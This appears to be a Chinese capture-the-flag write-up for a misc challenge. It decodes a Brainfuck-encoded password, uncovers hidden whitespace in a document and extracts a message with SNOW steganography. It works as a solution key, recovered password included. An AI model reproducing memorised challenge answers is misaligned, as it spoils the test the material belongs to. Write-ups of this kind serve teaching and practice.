

```
<password>+++++ +++[- >++++ ++++< ]>+++ +.<++ +[->+ ++<]> ++.<+ ++[-> +++<] >+.<+ ++[-> ---<] >-.++ ++++. <+++[ ->--- <]>-. +++.+ .++++ ++++. <+++[ ->--- <]>-- ----. +.--- --..+ .++++ +++++ .<+++ [->-- -<]>- ----- .<</password>
```

很显然brainfuck

解密网站https://www.splitbrain.org/services/ook

解得`DOYOUKNOWHIDDEN?`

开第二个文档，分析了一下什么都没有，文档只有一张图片



选中文档发现不对劲，显示隐藏标记发现有隐藏字符，把字符取消隐藏



发现是空白的，单独保存下来


结合图片跟雪有关，可能是snow加密，去跑一下试试



确实


---

其他题目可以等官方或者PWN师傅的WP啦，每次做题不管简单还是困难都要有所收获，week2师傅们也要加油！提前祝师傅们新年快乐！